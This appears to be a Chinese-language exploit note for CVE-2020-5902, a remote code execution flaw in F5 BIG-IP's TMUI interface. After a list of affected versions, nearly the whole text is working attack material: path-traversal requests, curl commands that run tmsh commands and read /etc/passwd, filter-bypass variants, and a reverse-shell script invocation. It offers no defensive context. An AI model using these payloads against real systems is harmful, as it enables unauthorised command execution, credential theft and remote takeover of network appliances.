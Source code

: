 ## CVE-2020-5902 F5 BIG-IP TMUI  远程代码执行漏洞

影响版本：  
- BIG-IP 15.x: 15.1.0/15.0.0
- BIG-IP 14.x: 14.1.0 ~ 14.1.2
- BIG-IP 13.x: 13.1.0 ~ 13.1.3
- BIG-IP 12.x: 12.1.0 ~ 12.1.5
- BIG-IP 11.x: 11.6.1 ~ 11.6.5


poc:
```
GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 

GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
```

rce exp:
```
RCE: 
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'

GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Read File exp: 
```
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Bypass:
```
..;  ==>  /hsqldb; 

..;  ==>  /hsqldb%0a
```

reverse shell:
```
./CVE-2020-5902.sh <server> <localip> <localport>
```

[@Budi Khoirudin](https://twitter.com/x4ce/status/1279790599793545216?s=21)  
[@jas502n](https://github.com/jas502n/CVE-2020-5902)  
[@TeamARES team](https://github.com/Critical-Start/Team-Ares/tree/master/CVE-2020-5902)